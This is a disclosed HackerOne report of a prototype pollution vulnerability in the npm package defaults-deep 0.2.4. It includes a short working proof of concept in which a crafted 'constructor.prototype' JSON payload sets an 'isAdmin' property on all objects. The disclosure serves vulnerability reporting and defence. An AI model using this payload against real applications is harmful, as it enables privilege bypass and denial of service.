 # Prototype pollution attack (defaults-deep / constructor.prototype)

## Report Details
- **Report ID**: 380878
- **URL**: https://hackerone.com/reports/380878
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-07-12T08:43:07.767Z
- **Disclosed**: 2018-09-28T10:03:21.371Z

## Reporter
- **Username**: asgerf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a prototype pollution vulnerability in defaults-deep.
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** defaults-deep
**version:** 0.2.4
**npm page:** `https://www.npmjs.com/package/defaults-deep`

## Module Description

Like `extend` but recursively copies only the missing properties/values to the target object.

## Module Stats

6,659 downloads in the last week

# Vulnerability

## Vulnerability Description

This is a variant of this vulnerability:
https://hackerone.com/reports/310443

The `defaults-deep` package can be tricked into adding or modifying properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:

Craft an object of form `{constructor: {prototype: {...}}}` and send it to `defaults-deep`:

```javascript
var defaultsDeep = require('defaults-deep');
var payload = JSON.parse('{"constructor": {"prototype": {"isAdmin": true}}}');
defaultsDeep({}, payload);
console.log({}.isAdmin); // true
```

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

Denial of service, possibly more depending on the application.
See https://hackerone.com/reports/310443

## Attachments
No attachments
